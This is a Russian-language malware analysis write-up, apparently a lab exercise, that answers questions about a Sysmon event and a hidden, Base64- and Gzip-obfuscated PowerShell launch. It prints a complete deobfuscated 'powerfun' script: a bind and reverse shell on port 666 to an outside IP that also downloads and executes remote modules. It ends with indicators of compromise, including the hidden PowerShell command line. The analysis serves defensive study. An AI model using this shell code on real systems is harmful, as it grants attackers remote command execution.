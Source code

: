 ### Ответы на вопросы с учетом деобфусцированного скрипта

#### 1. Родительский процесс
Родительским процессом, порождающим активность в PowerShell, является `cmd.exe`. Это видно из следующей части события Sysmon:
```xml
<Data Name="ParentProcessId">6004</Data>
<Data Name="ParentImage">C:\Windows\System32\cmd.exe</Data>
<Data Name="ParentCommandLine">"C:\Windows\system32\cmd.exe"</Data>
```

#### 2. Event ID события в Sysmon
Event ID у данного события Sysmon равен `1`.

#### 3. Видимость окна PowerShell
Пользователь компьютера не увидит окно PowerShell, так как оно запущено с параметром `-w hidden`, что означает, что окно будет скрыто.

#### 4. Обфускация кода
Анализируя PowerShell-логи и Sysmon-событие, можно заметить, что использованы следующие механизмы обфускации:
1. **Base64-кодирование**: Данные закодированы в Base64, что делает их менее читаемыми.
2. **Gzip-сжатие**: Данные также сжаты с использованием Gzip, что усложняет их анализ.

#### 5. Описание вредоносного скрипта
Вредоносный скрипт создает TCP-соединение (или слушает на порту) для удаленного выполнения команд через PowerShell. В зависимости от параметров, он может устанавливать обратное соединение с указанным сервером или слушать на локальном порту для входящих подключений. Скрипт позволяет выполнять команды на удаленной машине и возвращает результаты выполнения, а также может загружать и исполнять дополнительные модули.

### Деобфусцированный скрипт

```powershell
function Get-Webclient 
{
    $wc = New-Object -TypeName Net.WebClient
    $wc.UseDefaultCredentials = $true
    $wc.Proxy.Credentials = $wc.Credentials
    $wc
}

function powerfun 
{ 
    Param( 
        [String]$Command,
        [String]$Sslcon,
        [String]$Download
    ) 
    Process {
        $modules = @()  
        if ($Command -eq "bind")
        {
            $listener = [System.Net.Sockets.TcpListener]666
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 
        if ($Command -eq "reverse")
        {
            $client = New-Object System.Net.Sockets.TCPClient("218.176.156.151",666)
        }

        $stream = $client.GetStream()

        if ($Sslcon -eq "true") 
        {
            $sslStream = New-Object System.Net.Security.SslStream($stream, $false, ({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
            $sslStream.AuthenticateAsClient("218.176.156.151", $null, "tls12", $false)
            $stream = $sslStream 
        }

        [byte[]]$bytes = 0..20000 | %{0}
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes, 0, $sendbytes.Length)

        if ($Download -eq "true")
        {
            $sendbytes = ([text.encoding]::ASCII).GetBytes("[+] Loading modules.`n")
            $stream.Write($sendbytes, 0, $sendbytes.Length)
            ForEach ($module in $modules)
            {
                (Get-Webclient).DownloadString($module) | Invoke-Expression
            }
        }

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes, 0, $i)
            $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String)

            $sendback2 = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte, 0, $sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
}

powerfun -Command bind
```

### Индикаторы компрометации (IOC)

1. **Процесс PowerShell, запущенный с параметром `-w hidden`**:
   ```plaintext
   CommandLine: powershell.exe -nop -w hidden -noni -ep bypass ...
   ```
2. **IP-адрес и порт для обратного соединения**:
   ```plaintext
   IP: 218.176.156.151
   Port: 666
   ```